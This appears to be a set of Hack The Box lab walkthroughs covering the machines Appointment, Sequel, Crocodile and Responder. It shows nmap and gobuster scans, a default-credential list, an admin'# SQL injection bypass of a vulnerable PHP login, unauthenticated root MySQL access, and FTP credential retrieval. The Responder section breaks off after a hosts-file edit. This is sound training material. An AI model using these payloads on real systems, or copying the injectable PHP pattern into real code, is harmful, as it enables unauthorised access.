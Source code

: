 #  Machine: Appointment

## Exploit: SQL Injection 

Nmap is a tool used to find open ports on a target
- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts
- *Apache HTTP Server is a free and open-source application that runs web pages on either physical or virtual
web servers. It is one of the most popular HTTP servers, and it usually runs on standard HTTP ports such as
ports 80 TCP, 443 TCP, and alternatively on HTTP ports such as 8080 TCP or 8000 TCP*

 ![appointment_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_nmap.png?raw=true)

Since port 80 is open (http) we can go to the IP in our browser

**Gobuster**
```git clone https://github.com/danielmiessler/SecLists.git``` command downloads the wordlist
```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

Default credentials
- admin:admin
- guest:guest
- user:user
- root:root
- administrator:password

SQL injection
example how authentication works 

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
 # Checks if there's at least 1 result, and if yes:
 $_SESSION['username'] = $username; # Creates a session with the specified $username.
 $_SESSION['password'] = $password; # Creates a session with the specified $password.
 header("location:home.php"); # Redirect to homepage.
 ```
 
 if we use **admin'#** in the username field,
 
 ```$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";```
 
 will read ```$sql="SELECT * FROM users WHERE username='admin'```, so password will be skipped with this SQL injection
 
![appointment_select](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_select.png?raw=true)

We can login with any password in the password field

![appointment_sql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql.png?raw=true)

![appointment_sql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql1.png?raw=true)
 
#  Machine: Sequel

## Exploit: SQL database with mysql

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

```sudo apt update && sudo apt install mysql*``` to download mysql

- ```mysql -h {target_IP} -u root```
  - -h : Connect to host.
  - -u : User for log-in if not current user.

![sequel_mysql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql.png?raw=true)

- mysql commands

```
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the current
database.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
```

  - ```SHOW databases;``` to see our databases
  - ```USE htb;``` to change database
  - ```SHOW tables;``` to check the tables
  - ```SELECT * FROM config;``` to see our query of config

![sequel_mysql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql1.png?raw=true)

#  Machine: Crocodile

## Exploit: FTP/PHP

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

![crocodile_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_nmap.png?raw=true)

- Port 21 is open, ftp to the target IP
  - Use command ```get``` to download files from remote computer to the local computer
  - Use command ```bye``` to leave ftp

![crocodile_ftp](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_ftp.png?raw=true)

- Use command ```cat``` (concatenate) to read data from file and output the contents

![crocodile_cat](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_cat.png?raw=true)

**Gobuster**

```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

gobuster dir --url http://10.129.235.89 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

![crocodile_gobuster](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_gobuster.png?raw=true)

- ```http://{target_IP}/login.php``` page
  - Use the username and password files to log in
![crocodile_login](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_login.png?raw=true)

![crocodile_flag](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_flag.png?raw=true)

#  Machine: Responder

## Exploit: 

- ```nmap -p- --min-rate {#} -sV {target_IP}```
  - ```-sV``` switch, stands for version detection 
  - ```-p- to scan ports from 1 through 65535``` 
  - ```--min-rate {#}``` specifies the minimum number of packets Nmap should send per second; it speeds up the scan as the number goes higher

nmap -p- --min-rate 5000 -sV

- Port 80 (http) and 5985 (WinRM) are open

![responder_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_nmap.png?raw=true)

- *Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. WinRM allows the user to :*
  - *→ Remotely communicate and interface with hosts*
  - *→ Execute commands remotely on systems that are not local to you but are network accessible.*
  - *→ Monitor, manage and configure servers, operating systems and client machines from a remote location.*
  - *As a pentester, this means that if we can find credentials (typically username and password) for a user who has remote management privileges, we can potentially get a PowerShell shell on the host.*

- If we visit the IP in the browser, we are redirected to Unika.htb

![responder_unika](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika.png?raw=true)

- add the IP to the hosts file to redirect
  - ```echo "{target_IP} unika.htb" | sudo tee -a /etc/hosts```

![responder_unika2](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika2.png?raw=true)
